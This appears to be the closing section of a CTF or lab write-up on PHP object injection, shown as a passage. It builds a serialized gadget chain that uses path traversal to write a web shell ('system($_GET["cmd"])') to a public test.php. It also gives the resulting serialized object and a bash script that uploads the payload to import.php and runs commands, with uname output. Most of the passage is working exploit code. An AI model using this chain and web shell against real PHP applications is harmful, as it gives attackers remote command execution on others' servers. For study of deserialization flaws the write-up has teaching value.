 ```php
        $this->replacement = $repl;
    }

    function filter($data)
    {
        return preg_replace($this->matchPattern, $this->replacement, $data);
    }
}

//control the content written to the PHP file
$payload = '<?=system($_GET["cmd"]);?>';

$l = new Lyrics('123', new Song($payload, 'b', 'c'));
echo serialize($l);
```

Will produce the following serialized object that creates a PHP file with `system()` function call:
```
O:6:"Lyrics":2:{s:9:"*lyrics";s:3:"123";s:7:"*song";O:4:"Song":4:{
s:9:"*logger";O:6:"Logger":1:{s:12:"*logwriter";O:14:"LogWriter_File":2:{s:11:
"*filename";s:64:"../../../../../../../../../../../var/www/webroot/public/test.php";
s:9:"*format";O:13:"LogFileFormat":2:{s:10:"*filters";a:1:{i:0;O:12:"OutputFilter":
2:{s:15:"*matchPattern";s:3:"[0]";s:14:"*replacement";s:0:"";}}s:7:"*endl";s:1:"
";}}}s:7:"*name";s:26:"<?=system($_GET["cmd"]);?>";s:8:"*group";s:1:"b";s:6:"*url";s:1:"c";}}
```
PoC file `test.php`: `Song <?=system($_GET["cmd"]);?> by [i]b[/i] viewed.`

#### 9. Exploitation

File: `sploit.sh`
```bash
#!/usr/bin/env bash

cmd=${1:?missing cmd arg}

target='https://webdev.local'
payload=`php sploit.php 2>/dev/null | base64 -w0`
http --verify=no -f $target/import.php data=$payload >/dev/null
http --verify=no $target/test.php?cmd="$cmd" -b | sed 's/Song //g' | sed 's/ by.*viewed.//g' | sort -u
```

```
# bash sploit.sh "uname -a"
Linux 29873602d55c 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 Linux
```
